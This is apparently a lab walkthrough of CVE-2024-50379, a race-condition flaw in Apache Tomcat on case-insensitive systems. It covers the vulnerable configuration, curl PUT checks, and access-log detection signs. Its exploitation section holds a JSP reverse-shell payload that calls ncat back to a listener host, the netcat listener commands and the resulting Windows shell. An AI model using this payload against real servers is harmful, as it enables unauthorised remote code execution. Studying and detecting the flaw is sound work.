 https://nvd.nist.gov/vuln/detail/CVE-2024-50379
Apache Tomcat is an open-source web server and serverlet container. 
A **serverlet** is a Java class created to run an application server and handle client requests.

This CVE impact the following versions of Apache Tomcat:
- Apache Tomcat 11.0.0-M1 to 11.0.1 (Fixed in 11.0.2 or later)
- Apache Tomcat 10.1.0-M1 to 10.1.33 (Fixed in 10.1.34 or later)
- Apache Tomcat 9.0.0.M1 to 9.0.97 (Fixed in 9.0.98 or later)

This vulnerability is an exemple of Time-of-check Time-of-use (TOCTOU) vuln.
# Technical background
## Conditions
There is 2 conditions to exploit this vulnerability.
### 1. Allow upload and delete files
The server is configured to accept HTTP commands such as PUT and DELETE.

Writing is enabled by setting `readonly` to `false` in the `web.xml` configuration file. Note that the default configuration is readonly.
```xml
<init-param>
  <param-name>readonly</param-name>
  <param-value>false</param-value>
</init-param>
```

Here is an exemple of insecure configuration:
```xml
<servlet>
  <servlet-name>default</servlet-name>
  <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
  <init-param>
    <param-name>debug</param-name>
    <param-value>0</param-value>
  </init-param>
  <init-param>
    <param-name>listings</param-name>
    <param-value>false</param-value>
  </init-param>
  <init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
  </init-param>
  <load-on-startup>1</load-on-startup>
</servlet>
```
### 2. Run Tomcat in case-insensitive system
The second condition for exploiting this vulnerability is for Tomcat to run on a case-insensitive system, such as MS Windows or macOS.

On case-sensitive systems like Linux, `demo.jsp` and `demo.Jsp` are two different files.

But MS Windows would treat `demo.Jsp` no different than it would treat a servlet properly named `demo.jsp`.

## Checking
If we try to create the file `demo.jsp` it will return an error because the `jsp` files are executable. 
```bash
curl -X PUT -d "test" http://10.10.38.182:8080/demo.jsp
<!doctype html><html lang="en"><head><title>HTTP Status 404 – Not Found</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 404 – Not Found</h1><hr class="line" /><p><b>Type</b> Status Report</p><p><b>Message</b> JSP file [&#47;demo.jsp] not found</p><p><b>Description</b> The origin server did not find a current representation for the target resource or is not willing to disclose that one exists.</p><hr class="line" /><h3>Apache Tomcat/10.1.25</h3></body></html>
```

But if we create a file with the `.Jsp` extension Tomcat doesn't consider it as an executable.
```bash
> curl -X PUT -d "test" http://10.10.38.182:8080/demo.Jsp

> curl  http://10.10.38.182:8080/demo.Jsp
test
```
# Exploitation
There is a PoC of this: `git clone https://github.com/iSee857/CVE-2024-50379-PoC`
We will make two changes to this script:
- **Modify the loop counter**: Change the number of loop 10000 -> 2000
- **Change the payload**: Change the payload from run the calc to create a reverse shell
## Changing the payload
```python
# payload_put = "aa<% Runtime.getRuntime().exec(\"calc.exe\");%>"
payload_put = "<%@ page import=\"java.io.*\" %><% Runtime.getRuntime().exec(\"cmd /c start ncat -e cmd.exe 10.10.66.46 8888\"); %>"
```
## Exploit
### Start listener
```bash
$ nc -vnlp 8888
```
### Run the script
```bash
$ python3 /root/Rooms/Tomcat-CVE-2024-50379/poc.py -u 10.10.38.182:8888
Checking http://10.10.38.182:8888/..
```
### Get the shell
```bash
netcat -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 10.10.38.182 49767
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\Apache Software Foundation\Tomcat 10.1>
```
# Detection
To detect it just go in the logs directory:
`C:\Program Files\Apache Software Foundation\<Tomcat Version>\logs\*access_log*`
And check for:
1. **PUT** requests to upload the file with uppercase (**.Jsp** or **.JSP**) extension (`"PUT /cve.Jsp"`)
2. **GET** request to the same file immediately after, but now to the **.jsp** extension (`"GET /cve.jsp"`)
3. **GET** request is logged with either **200** or **404** status code, depending if race condition succeeded or not
4. The steps above are repeated until the race condition is successful; usually, it’s 1000 or more attempts

```http
10.14.97.15 - - [30/Jan/2025:14:25:34 +0000] "PUT /cve.Jsp HTTP/1.1" 201 -
10.14.97.15 - - [30/Jan/2025:14:25:34 +0000] "GET /cve.jsp HTTP/1.1" 404 749
...
10.14.97.15 - - [30/Jan/2025:14:25:39 +0000] "PUT /cve.Jsp HTTP/1.1" 409 654
10.14.97.15 - - [30/Jan/2025:14:25:39 +0000] "GET /cve.jsp HTTP/1.1" 404 749
10.14.97.15 - - [30/Jan/2025:14:25:39 +0000] "PUT /cve.Jsp HTTP/1.1" 204 -
10.14.97.15 - - [30/Jan/2025:14:25:39 +0000] "GET /cve.jsp HTTP/1.1" 404 749
10.14.97.15 - - [30/Jan/2025:14:25:39 +0000] "PUT /cve.Jsp HTTP/1.1" 204 -
10.14.97.15 - - [30/Jan/2025:14:25:39 +0000] "GET /cve.jsp HTTP/1.1" 200 32
```
